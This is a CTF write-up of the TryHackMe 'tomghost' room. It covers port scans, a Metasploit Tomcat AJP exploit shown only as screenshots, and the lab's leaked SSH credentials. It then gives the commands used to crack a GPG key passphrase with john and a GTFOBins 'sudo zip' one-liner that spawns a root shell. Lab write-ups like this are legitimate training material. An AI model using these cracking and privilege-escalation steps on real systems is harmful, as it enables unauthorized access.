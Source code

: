 ```yaml
---
title: "tomghost"
date: 2024-12-24
draft: false
description: TryHackMe's Good Room
Tags:
- TryHackMe
- Linux
- Easy
---
```




## Enumeration

```
 rustscan -a 10.10.177.90
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Scanning ports: The virtual equivalent of knocking on doors.

[~] The config file is expected to be at "/home/k21/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.177.90:53
Open 10.10.177.90:22
Open 10.10.177.90:8009
Open 10.10.177.90:8080
[~] Starting Script(s)
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-12 15:03 +0545
Initiating Ping Scan at 15:03
Scanning 10.10.177.90 [4 ports]
Completed Ping Scan at 15:03, 0.19s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:03
Completed Parallel DNS resolution of 1 host. at 15:03, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 2, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 15:03
Scanning 10.10.177.90 (10.10.177.90) [4 ports]
Discovered open port 22/tcp on 10.10.177.90
Discovered open port 8080/tcp on 10.10.177.90
Discovered open port 8009/tcp on 10.10.177.90
Discovered open port 53/tcp on 10.10.177.90
Completed SYN Stealth Scan at 15:03, 0.20s elapsed (4 total ports)
Nmap scan report for 10.10.177.90 (10.10.177.90)
Host is up, received echo-reply ttl 60 (0.17s latency).
Scanned at 2025-02-12 15:03:21 +0545 for 0s

PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 60
53/tcp   open  domain     syn-ack ttl 60
8009/tcp open  ajp13      syn-ack ttl 60
8080/tcp open  http-proxy syn-ack ttl 60

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.58 seconds
           Raw packets sent: 8 (328B) | Rcvd: 5 (204B)


```

```
 nmap -sVC 10.10.177.90
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-12 15:02 +0545
Nmap scan report for 10.10.177.90 (10.10.177.90)
Host is up (0.17s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.68 seconds

```

Hmm I can see this too.
![](Pasted%20image%2020250212150938.png)
Hmm I just searched for a exploit of `# Apache Tomcat/9.0.30`.
Hoping if we find anything special and it worked.
![](Pasted%20image%2020250212151117.png)

So it is metasploit exploit.
I searched on msfconsole for making it simple.
![](Pasted%20image%2020250212151531.png)
And exploited it.
![](Pasted%20image%2020250212151557.png)
Hmm we got the username and password.
Hmmm.
`skyfuck:8730281lkjlkjdqlksalks`

![](Pasted%20image%2020250212151837.png)
And it worked on ssh.
![](Pasted%20image%2020250212152050.png)

Now lets do privelege escalation.
And found few things.
![](Pasted%20image%2020250212152257.png)
Hmmmm.
Now we can import that private gpg key in `tryhackme.asc`.
`gpg --import tryhackme.asc`
After this,
we can check this.
`gpg --list-secret-keys`
And do this.
` gpg --decrypt credential.pgp`

And it should be decrypted but there is a twist.
![](Pasted%20image%2020250212152808.png)
Its asking for a passphrase.
Hmmmm.


Then,I downloaded that both file to my host.
I used john to get hash and crack passphrase.
`gpg2john tryhackme.asc > hash.txt`
![](Pasted%20image%2020250212154903.png)
And simply cracked with john.
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt `
![](Pasted%20image%2020250212154941.png)
`alexandru`

And we decrypted that `credential.pgp`.
![](Pasted%20image%2020250212155130.png)
`merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`
![](Pasted%20image%2020250212155234.png)

Hmm now lets try to become root.
And we can see something.
![](Pasted%20image%2020250212155329.png)
Now I immediately goes to.
[[https://gtfobins.github.io/gtfobins/zip/#sudo]]

And got this.
```
Sudo(https://gtfobins.github.io/gtfobins/zip/#sudo)

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

    TF=$(mktemp -u)
    sudo zip $TF /etc/hosts -T -TT 'sh #'
    sudo rm $TF

```

![](Pasted%20image%2020250212155617.png)
And exploited this and got root.
![](Pasted%20image%2020250212155645.png)

And done.
![](Pasted%20image%2020250212155753.png)
